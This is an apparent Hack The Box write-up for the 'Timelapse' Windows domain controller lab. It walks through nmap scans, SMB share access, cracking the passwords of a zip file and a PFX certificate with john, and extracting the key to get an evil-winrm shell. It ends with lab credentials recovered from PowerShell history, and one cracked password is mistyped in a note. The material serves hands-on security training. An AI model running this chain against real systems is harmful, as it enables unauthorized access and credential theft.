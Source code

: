 # NMAP Scans
```CSS
▶ nmap -Pn -sS -T4 --min-rate 1000 10.10.11.152 

Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-02 17:41 IST
Nmap scan report for timelapse.htb (10.10.11.152)
Host is up (0.25s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
5986/tcp  open  wsmans
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49696/tcp open  unknown
60937/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 3.45 seconds
```

```CSS
▶ nmap -Pn -sC -sV -T4 --min-rate 1000 10.10.11.152 -p 53,88,135,139,389,445,464,593,636,3268,3269

Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-02 17:44 IST
Nmap scan report for timelapse.htb (10.10.11.152)
Host is up (0.35s latency).

PORT     STATE SERVICE           VERSION
53/tcp   open  domain            Simple DNS Plus
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2023-08-02 20:14:38Z)
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp open  globalcatLDAPssl?
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-08-02T20:15:08
|_  start_date: N/A
|_clock-skew: 7h59m59s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 79.49 seconds
```
# Hostnames
  - Get machine `hostname` via SMB in order to get all the potential names for this machine.
```CSS
▶ crackmapexec smb 10.10.11.152
SMB         10.10.11.152    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
```
# SMB Enumeration
List available shared folders using `crakmapexec`.
```CSS
▶ crackmapexec smb 10.10.11.152 --shares
```
  - crackmap did not produce any results.

- List available shared folders using `smbclient`.
```CSS
▶ smbclient -L //10.10.11.152/

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Shares          Disk      
        SYSVOL          Disk      Logon server share 
```
- Connect to the SMB share name "Shares".
```CSS
▶ smbclient //10.10.11.152/Shares

smb: \> ls
  .                                   D        0  Mon Oct 25 21:09:15 2021
  ..                                  D        0  Mon Oct 25 21:09:15 2021
  Dev                                 D        0  Tue Oct 26 01:10:06 2021
  HelpDesk                            D        0  Mon Oct 25 21:18:42 2021

smb: \> cd Dev
smb: \Dev\> ls
  .                                   D        0  Tue Oct 26 01:10:06 2021
  ..                                  D        0  Tue Oct 26 01:10:06 2021
  winrm_backup.zip                    A     2611  Mon Oct 25 21:16:42 2021

                6367231 blocks of size 4096. 2465596 blocks available
smb: \Dev\> get winrm_backup.zip
getting file \Dev\winrm_backup.zip of size 2611 as winrm_backup.zip (2.4 KiloBytes/sec) (average 2.4 KiloBytes/sec)
```
- Downloaded the zip file `winrm_backup.zip` with the "Dev" directory.

# Crack ZIP Hash
```CSS
▶ zip2john winrm_backup.zip > winrm_backup.hash
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: TS_chk, cmplen=2405, decmplen=2555, crc=12EC5683 ts=72AA cs=72aa type=8
```
```CSS
▶ john winrm_backup.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)     
1g 0:00:00:00 DONE (2023-08-02 19:28) 3.125g/s 10841Kp/s 10841Kc/s 10841KC/s surkerior..suppamas
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

▶ john winrm_backup.hash -show 
winrm_backup.zip/legacyy_dev_auth.pfx:supremelegacy:legacyy_dev_auth.pfx:winrm_backup.zip::winrm_backup.zip

1 password hash cracked, 0 left
```
- Password: superemelegacy
# Unzip the ZIP
```CSS
▶ unzip winrm_backup.zip
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
  inflating: legacyy_dev_auth.pfx
```
- File: `legacyy_dev_auth.pfx`
# Crack PFX hash
```CSS
▶ pfx2john legacyy_dev_auth.pfx > legacyy_dev_auth.hash
```
```CSS
▶ john legacyy_dev_auth.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 128/128 AVX 4x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thuglegacy       (legacyy_dev_auth.pfx)     
1g 0:00:02:12 DONE (2023-08-02 19:36) 0.007573g/s 24469p/s 24469c/s 24469C/s thuglife06..thugers1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

▶ john legacyy_dev_auth.hash --show
legacyy_dev_auth.pfx:thuglegacy:::::legacyy_dev_auth.pfx

1 password hash cracked, 0 left
```
- Password: thuglegacy

# SSL Certificate in `PKCS#12` format.
```CSS
▶ openssl pkcs12 -in legacyy_dev_auth.pfx -info
                                                                                                          
Enter Import Password:                                                                
MAC: sha1, Iteration 2000                                                             
MAC length: 20, salt length: 20                                                       
PKCS7 Data                                                                            
Shrouded Keybag: pbeWithSHA1And3-KeyTripleDES-CBC, Iteration 2000
Bag Attributes                                                                        
    Microsoft Local Key set: <No Values>                                              
    localKeyID: 01 00 00 00                                                           
    friendlyName: te-4a534157-c8f1-4724-8db6-ed12f25c2a9b       
    Microsoft CSP Name: Microsoft Software Key Storage Provider 
Key Attributes                                                                        
    X509v3 Key Usage: 90          
```
# Extract .crt and .key files from .pfx file
- Extract the key
```CSS
▶ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -nodes -out legacyy_dev_auth.key
```
- Extract the certificate
```CSS
▶ openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -clcerts -out legacyy_dev_auth.crt
```
# WinRM Shell
Use the extracted certificate and the key to get a shell on the machine.
```CSS
▶ evil-winrm -S -i 10.10.11.152 -c legacyy_dev_auth.crt -k legacyy_dev_auth.key

*Evil-WinRM* PS C:\Users\legacyy\Documents> 
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/6170e1ea-7ff9-4e5a-809a-1cc5c730f903)

## PowerShell Console History
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/e9190572-d720-48dd-8c86-fe65c496c101)
-  Username: 'svc_deploy'
-  Password: 'E3R$Q62^12p7PLlC%KWaxuaV'
